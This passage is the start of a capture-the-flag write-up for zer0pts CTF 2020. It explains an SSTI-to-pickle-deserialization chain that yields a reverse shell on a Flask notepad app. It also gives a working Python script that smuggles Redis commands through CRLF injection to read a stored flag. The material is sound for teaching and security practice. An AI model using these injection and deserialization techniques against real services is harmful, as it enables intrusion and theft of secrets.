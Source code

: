 # zer0pts CTF 2020

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20200307-zer0ptsctf/) of this writeup.**


 - [zer0pts CTF 2020](#zer0pts-ctf-2020)
   - [Web](#web)
     - [notepad](#notepad)
     - [urlapp](#urlapp)
     - [Can you guess it?](#can-you-guess-it)
     - [MusicBlog](#musicblog)
   - [Pwn](#pwn)
     - [hipwn](#hipwn)
     - [protrude](#protrude)
     - [grimoire](#grimoire)


---

## Web

### notepad

There is a SSTI vulnerability in `page_not_found()` function. We can append `{{config}}` to a valid `Referer` header to leak the server `secret_key`:

```
SECRET_KEY': b'Sh\xe3e R\x95\xdb\xb19\xf9\x18\xc3\xf6\xeco'
```

Now we can forge a fake cookie to trigger the `pickle.loads(our_forged_data)` in `load()` function. We can get a reverse shell using the python pickle deserialization vulnerability.

I use [this](https://github.com/noraj/flask-session-cookie-manager) to create fake cookie.

Flag: `zer0pts{fl4sk_s3ss10n_4nd_pyth0n_RCE}`

### urlapp

This challenge's flag is already included in the Redis server with KEY `flag`. The service will store the requested url into the Redis server with a random 16-hexbytes KEY. For instance, if we requested `https://example.com` to the service, it will first create a random 16-hexbytes KEY, says `faceb00cdeadbeef`, then execute the following Redis command `SET faceb00cdeadbeef https://example.com`. Now if you request `https://[challenge]?q=faceb00cdeadbeef`, it will execute `GET faceb00cdeadbeef` Redis command and redirect you to the return value `https://example.com`.

We are allowed to inject arbitrary Redis command with newline in `POST` request `url` parameter.

One idea is that maybe we can append the flag value to a stored url, and since all the stderr will display to user, we can know what the flag is because the url is invalid.

```python
import requests

url = 'http://3.112.201.75:8004/'

query = {'url': 'http://[URL]/?q=\r\n'}
r = requests.post(url, data=query)
code = r.content[-16:]
print code

p1 = "SCRIPT LOAD \"redis.call('APPEND', KEYS[2], redis.call('GET', KEYS[1])); return 1;\"\r\n"
p2 = "EVALSHA 7614be2a5fac38857cd5a98f26d710f988d1b25f 2 flag {}\r\n".format(code)
query = {'url': 'http://[URL]/?q=\r\n' + p1 + p2}
r = requests.post(url, data=query)

```